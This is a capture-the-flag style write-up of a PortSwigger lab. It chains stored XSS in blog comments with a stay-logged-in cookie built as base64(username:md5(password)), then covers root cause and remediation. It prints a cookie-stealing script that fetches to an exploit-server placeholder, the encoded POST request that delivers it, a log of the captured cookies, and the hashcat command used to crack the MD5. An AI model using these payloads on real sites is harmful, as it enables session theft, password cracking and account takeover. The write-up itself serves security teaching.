




# Stored XSS to Account Takeover via Client-Side Credential Hash

**Bug class:** Stored XSS, insecure credential storage
**Impact:** Full account takeover of any user who views a malicious comment
**Platform:** PortSwigger Web Security Academy

## Target

A blog application with a comments feature on each post. Authenticated users can opt to stay signed in via a `stay-logged-in` cookie. Other authenticated users, including privileged accounts, periodically read new comments, which provides a delivery path for stored XSS to reach a victim session.

## Vulnerability

Two flaws compose into account takeover:

1. **Stored XSS in comments.** The comment field accepts and stores user input without HTML sanitization, allowing injected scripts to execute in any reader's authenticated session.
2. **Credential material in a client-side cookie.** The persistent login cookie has the structure `base64(username + ":" + md5(password))`. It is unsigned, unencrypted, and uses a fast unsalted hash. Any party who obtains the cookie can recover the plaintext password offline.

Either flaw alone is exploitable. Chained, an unauthenticated attacker recovers the plaintext password of any user whose session loads the malicious comment.

## Exploitation

### Step 1: Stored XSS payload in comment field

The application provides a comment form on each post. The lab provides an attacker-controlled exploit server for receiving exfiltrated data:



Posted the following comment on post 5, which is rendered into the page when other users view the post:

```html
<script>
  fetch("https://EXPLOIT_SERVER/exploit?COOKIES=" + document.cookie);
</script>
```

The `POST /post/comment` request submitting the payload (URL-encoded in the body):

```http
POST /post/comment HTTP/1.1
Host: TARGET.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

postId=5&comment=%3Cscript%3Efetch%28%27https%3A%2F%2FEXPLOIT_SERVER
%2Fexploit%3FCOOKIES%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E&name=
blah&email=blah%40gmail.com&website=
```

When the victim (carlos) loaded the post, the script executed in their session context and called back to the exploit server. The exploit server access log captured the request:

```
10.0.4.231  "GET /exploit?COOKIES=secret=A3YGy8eruOYXzBehbmXTuE7XnhsrNRP3;
              stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
              HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) ..."
```

The `Mozilla/5.0 (Victim)` user-agent confirms this is the simulated victim and not browser noise from my own session.

### Step 2: Decode the cookie

Base64-decoded the `stay-logged-in` value:

```
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
  → carlos:26323c16d5f4dabff3bb136f2460a943
```



The decoded structure is the security failure made visible. The cookie is not an opaque session identifier. It is a serialized credential where the second field is a hash of the user's password.

### Step 3: Recover the plaintext password offline

The 32-character lowercase hex string is consistent with MD5. Cracked with hashcat using the rockyou wordlist:

```
$ echo "26323c16d5f4dabff3bb136f2460a943" > hash.txt
$ hashcat -m 0 -a 0 hash.txt ~/wordlists/rockyou.txt
```

Result:

```
26323c16d5f4dabff3bb136f2460a943:onceuponatime

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Speed.#1.........: 51737.6 kH/s
Time.Estimated...: 1 sec
Progress.........: 655360/14344384 (4.57%)
```



This is the core security failure. MD5 is a fast cryptographic hash designed for integrity checking, not for credential storage. It is unsalted in this implementation, meaning identical passwords across users hash to identical values and precomputed rainbow tables apply directly. On an Apple M3 laptop with no specialized hardware, the password resolved in approximately one second after testing 4.57% of the rockyou wordlist. The full wordlist would have exhausted in under thirty seconds.

### Step 4: Account takeover

Logged in as `carlos` with the recovered password through the standard login form and deleted the account through `/my-account/delete`.



## Reasoning notes

The initial hypothesis was that the `stay-logged-in` cookie could be replayed directly against authenticated endpoints, bypassing the need to crack the password at all. I attempted this by sending the stolen cookie to `/my-account/delete` without performing a fresh login. The request failed because the delete endpoint validates the live session cookie, not the persistent login cookie, and the persistent cookie alone does not establish a session. This pointed at recovering the plaintext password and performing a full login as the working path.

This dead end is worth noting because it clarifies the actual trust boundary in the system. The persistent login cookie is treated as a credential the server uses to re-authenticate the user, not as a session token. The server-side flow on cookie presentation is presumably: decode → look up user → verify hash → issue a fresh session. The flaw is not that the persistent cookie has too much privilege. It is that the cookie's contents allow that re-authentication step to be performed offline by anyone who reads the cookie.

## Root cause

The application treats a hash of the user's password as an authentication token sent to the client. Any value derived deterministically from a password is functionally equivalent to the password itself if the hash function is reversible at scale, which fast unsalted hashes are.

The correct design is to issue an opaque, random, server-side session identifier that has no functional relationship to the user's credentials. The server stores the mapping from identifier to user. The client has no information that survives revocation.

## Remediation

- **Sanitize user-supplied HTML.** Context-encode rendered comment content and enforce a Content-Security-Policy that disallows inline script execution.
- **Replace the persistent login cookie with an opaque token.** Use a cryptographically random, server-stored, revocable identifier. The cookie value must not be derivable from any user attribute.
- **Use a slow KDF for password storage.** Bcrypt, scrypt, or Argon2 with appropriate work factors. MD5 and SHA family hashes are unsuitable for credential storage regardless of how the resulting hash is transmitted.

## References

- [PortSwigger Web Security Academy: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
- [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
- [OWASP: XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
